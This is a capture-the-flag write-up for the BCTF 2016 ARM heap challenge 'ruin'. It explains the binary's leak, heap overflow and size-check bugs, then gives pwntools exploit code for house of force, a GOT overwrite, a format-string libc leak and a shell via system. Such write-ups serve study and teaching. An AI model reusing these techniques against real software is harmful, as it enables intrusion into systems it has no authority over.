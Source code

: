 ```yaml
---
layout: post
title: BCTF - Ruin Writeup
description: "Writeup for the 2016 bctf heap exploitation exercise (pwn 200) ruin."
modified: 2016-03-22
tags: [writeup, ctf, bctf, arm, heap, pwn]
comments: true
share: true
categories: [writeups]
---
```


I solved this challenge with the help of my teammate [@KT](https://twitter.com/koczkatamas). The required technique and vulnerabilities in this challange are very similar to the bcloud (pwn 150) exercise I solved this one first so I try to describe them here. I might add a writeup for the other challange too, if I have the time. 

```
$ ./checksec.sh --file ruin
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   ruin

```

We were given with an ARM (EABI-5) binary, which we immediatly loaded up in IDA. The source code is pretty simple so the reversing was pretty straight forward, the Hex-Rays decompiler makes it even easier. The program reads a key and if it is correct we are presented with a menu where we can write strings into three different buffers.

The vulnerbalilities were pretty obvious in the binary. The first one is in the key read method at the very beginning, it reads 8 characters into an 8 byte array on the .bss than prints it if it is not the right key.

```
printf("please input your 8-bit key:");
fread(g8bitKeySecurity, 1u, 8u, (FILE *)stdin);
if ( !strncmp(g8bitKeySecurity, "security", 8u) )
   break;
printf("%s is wrong, try again!\n", g8bitKeySecurity);
```

Luckily there is a heap pointer right after the buffer on the .bss so if we provide an 8 characters long invalid key we have our heap leak, which will be crucial later.

The second vuln is in the edit secret function which allocates an 8 byte long buffer than reads 24 bytes into it.

```
if ( !gSecretBOF )
  gSecretBOF = (char *)malloc(8u);
printf("please input your secret:");
return fgets(gSecretBOF, 24, (FILE *)stdin);
```

The third vuln is in the sign name function which only checks the upper bound of the supplied integer that later is converted to unsigned. This allows us to allocate arbitrarily large buffer.

So what we have at this point is a heap leak, a binary with no relro and no PIE, a heap buffer that overflows, arbitrary user controlled heap allocation and a third buffer that we can write. This screams house of force (note: a good resource to look for heap exploits is [How2Heap](https://github.com/shellphish/how2heap) by shellphish that also explains and demonstrates house of force in detail).

During house of force we overwrite the size of the wilderness (the size of the last free chunk) to be extremely large so we can allocate huge buffers on the chunked (brk) heap and avoid calling mmap. This way we can move the "end of the heap" to an arbitrary location in the memory and control the next allocation. Since there is no full-relro and there is no PIE we can overwrite .got.plt to gain IP control. To position the "heap end" to the got we have to allocate ``` target_address - 2*pinter_size - heap_current_top``` sized buffer.

```
## Leak the heapbase
connect = c
c.recvuntil(":")
c.send("xxxxxxxx")
leak = c.recvuntil(':')
print hexdump(leak[8:12])
heapbase = u32(leak[8:12]) - 8
c.send("security")
c.recvuntil(":")

## Overwrite last chunk free space
LAST_CHUNK_SIZE= "\xff"*4 + "\xff"*4
FILL="\x00"*8
sendData(c, 2, ["A"*8+LAST_CHUNK_SIZE+FILL])
print "Wilderness Set Up"
c.send('\n')
c.recvuntil(':')

## Position the "heap end"
heap_top = heapbase + 20
target = e.got['exit']
print hex(target)
address = target - 8 - heap_top
print str(address)
OFFSET_TO_GOT= str(address) + 'A'* (32 -len(str(address)))
sendData(c, 3, [OFFSET_TO_GOT,"A"*10+"\n"])
```


 Our third controlled buffer is 16 bytes long plus the 8 bytes of the chunk header so we would overwrite 24 bytes on the .got.

```
.got:00010F74 __libc_start_main_ptr DCD __imp___libc_start_main
.got:00010F74                                         ; DATA XREF: __libc_start_main+8r
.got:00010F78 __gmon_start___ptr DCD __imp___gmon_start__ ; DATA XREF: __gmon_start__+8r
.got:00010F7C exit_ptr        DCD __imp_exit          ; DATA XREF: exit+8r
.got:00010F80 atoi_ptr        DCD __imp_atoi          ; DATA XREF: atoi+8r
.got:00010F84 strncmp_ptr     DCD __imp_strncmp       ; DATA XREF: strncmp+8r
.got:00010F88 abort_ptr       DCD __imp_abort         ; DATA XREF: abort+8r
```

A good target to overwrite is ```atoi``` because we can directly supply a string as its parameter and has enough space before and after it. Now that we have IP control we need an address to jump to, however we dont yet have the libc base address and the libc version. At this point we decided to overwrite ```atoi``` with the .plt address of the ```printf``` stub to leak further information. 

```
## leak libc base
c.send("%21$p|%22$p/\n")
libc = c.recvuntil('/')[:-1]
start = int(libc.split('|')[0], 16)
segment = int(libc.split('|')[1], 16)
print hex(start)
print hex(segment)

## Overwrite got
PAYLOAD_ADDR=p32(0x8594)
sendData(c, 1, [PAYLOAD_ADDR+ "\x00"* (16-len(PAYLOAD_ADDR))])
```

Fortunately there are libc adresses on the stack that we can read, so we only need the address of ```system```. With our printf we have arbitrary read from the entire memory thus we can search libc for the system export symbol, this can be further simplified with pwntools DynELF lookup. The only problem is that the ```printf``` input is read by ```fgets``` which terminates on null byte, so we cant directly read addresses containing 0x00 byte. This is not a huge problem because we can still read from the previous or next address and identify the ELF header.

```
def leaker(addr):
    sys.stdout.write(hex(addr) + ': ')
    if addr%0x100 == 0:
        print "upppss..."
        if not '000' in '%02x'%(addr + 1):
            testVal = leaker(addr + 1)
            if testVal[0:3] == "ELF":
                return "\x7f" + testVal
            else:
                return leaker(addr - 1)
        else:
            return leaker(addr - 1)
    else:
        connect.send(p32(addr) + "%5$s\n")
        data = connect.recvuntil('\nwrong')[4:-6]
        if data == "":
            data += "\x00"
        print '%r' % data
        dump = connect.recvuntil(':')
        return data

d = DynELF(leaker, start)
system = d.lookup('system')
print 'system = %r' % system
```

At this point we have evrything we need, we just have to rewrite the original ```atoi``` address to the leaked ```system``` address. One little thing is that we have overwritten the ```atoi``` which return value is used to navigate the menu, luckily we can use the ```printf``` to navigate by sending as many characters as the menu option we want to hit (the ```printf``` returns the number of printed bytes). Finally we just have to send the "\bin\sh" input to ```system``` and we have our remote shell, to read the flag.

```
BCTF{H0w_3lf_Ru1n3d_XmaS}
```

The complete exploit is availabe [here](/resources/writeup/bctf-2016/ruin/exploit.py) (disclaimer: it was written under CTF circumstances and it might disturb seasoned coders). I think the challange was all right, however it really did not make any difference that it was ARM (besides making a tiny bit harder to figure out the libc version). I was looking for some ARM/Thumb mode switching ROP chain writing or something specific for the architecture, which was not needed to solve the challange. Still I had fun and thanks for the organizers for the challenge.
